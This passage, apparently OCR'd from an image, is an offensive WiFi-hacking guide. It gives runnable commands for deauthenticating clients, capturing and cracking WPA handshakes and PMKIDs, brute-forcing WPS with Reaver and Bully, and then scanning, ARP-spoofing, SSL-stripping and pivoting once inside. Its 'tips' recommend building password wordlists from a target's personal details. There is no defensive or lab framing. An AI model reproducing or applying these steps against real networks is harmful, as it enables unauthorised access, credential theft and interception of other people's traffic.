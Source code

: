 sudo aireplay-ng --deauth 10 -a [BSSID] -c [Client MAC] wlan0

(Deauth the client; when they reconnect, you capture the handshake.)

Capture Handshake:

sudo airodump-ng --bssid [BSSID] -c [Channel] -w capture wlan0

Crack Handshake:

With aircrack-ng:
aircrack-ng capture-01.cap -w /path/to/wordlist.txt

With hashcat (faster, GPU-accelerated):
hcxpcapngtool -o hash.hc22000 capture.pcapng
hashcat -m 22000 hash.hc22000 /path/to/wordlist.txt

🜃 Classified Tip:
Use custom wordlists generated with cewl, crunch, or Mentalist based on target OSINT (names, pets, dates, etc.).
Real Red Teams don't use rockyou.txt — they build tailored dictionaries.

—

🜃 3.2 PMKID Attack (No Client Needed)
Capture PMKID: (Already done if using hcxdumptool.)

Crack PMKID:

hashcat -m 22000 pmkid.hc22000 /path/to/wordlist.txt

🜃 Black-Grade Note:
PMKID attacks work even if no clients are connected.
Devastating against poorly configured WPA2 networks.

—

🜃 3.3 WPS Attacks (If WPS is Enabled)
Reaver (Pixie Dust Attack):
sudo reaver -i wlan0 -b [BSSID] -c [Channel] -vv

Bully (Alternative WPS brute-forcer):
sudo bully wlan0 -b [BSSID] -c [Channel]

🜃 Insider Secret:
Many routers still have WPS enabled by default — even if the admin panel says otherwise.
Always check.

—

🜃 4. Post-Exploitation: After the Breach
Once you have the WiFi password:

Connect to the Network (spoof MAC if needed).
Network Recon:
nmap -sn 192.168.1.0/24 (Ping sweep)
nmap -sV -O 192.168.1.1 (Router fingerprinting)
Credential Harvesting:
ARP spoofing + SSL stripping (bettercap modules).
Pivoting:
If you find a vulnerable device, use it as a beachhead to move deeper into the internal network.
—
